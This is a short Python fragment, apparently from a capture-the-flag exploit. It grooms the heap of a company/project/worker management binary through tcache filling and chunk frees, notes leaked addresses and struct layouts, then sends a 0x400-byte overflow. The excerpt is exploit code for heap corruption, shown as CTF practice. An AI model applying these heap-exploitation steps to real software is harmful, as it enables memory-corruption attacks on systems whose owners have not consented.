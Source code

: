 ```python
# place our object snug in the middle
add_project(b"target-c", b"target-p", 5160)

# a few more
for i in range(7, 10):
    add_project(b"target-c", b"dummy" + str(i).encode(), 500)

for i in range(43):
    hire_worker(b"target-c", b"target-p", b"john" + str(i).encode(), 0x40)

# fill up 0x41 tcache as well
for i in range(7):
    hire_worker(b"target-c", b"target-p", b"robot" + str(i).encode(), 0x40)
for i in range(7):
    fire_worker(b"robot" + str(i).encode())

# skip dummy6
for i in range(6):
    remove_project(b"target-c", b"dummy" + str(i).encode())

for i in range(7, 10):
    remove_project(b"target-c", b"dummy" + str(i).encode())

elapse_week()

# john0: 0x555555588820 (size: 0x41)
# project: 0x5555555886a0 (size: 0x51)
# company: 0x555555588320 (size: 0x51)

# worker:
# 0x00: *name
# 0x08: name.size
# 0x10: data
# 0x18: data
# 0x20: salary
# 0x28: *project

# project: 
# 0x00: *name
# 0x08: name.size
# 0x10: data
# 0x18: data
# 0x20: profit_per_week
# 0x28: workers->start
# 0x30: workers->end
# 0x38: workers->capacity
# 0x40: *company

# company:
# 0x00: *name
# 0x08: name.size
# 0x10: data
# 0x18: data
# 0x20: budget
# 0x28: age
# 0x30: projects->start
# 0x38: projects->end
# 0x40: projects->capacity

sell_company(b"target-c")
p.sendline(b"a"*0x400)

add_company(b"grr", 1000)
```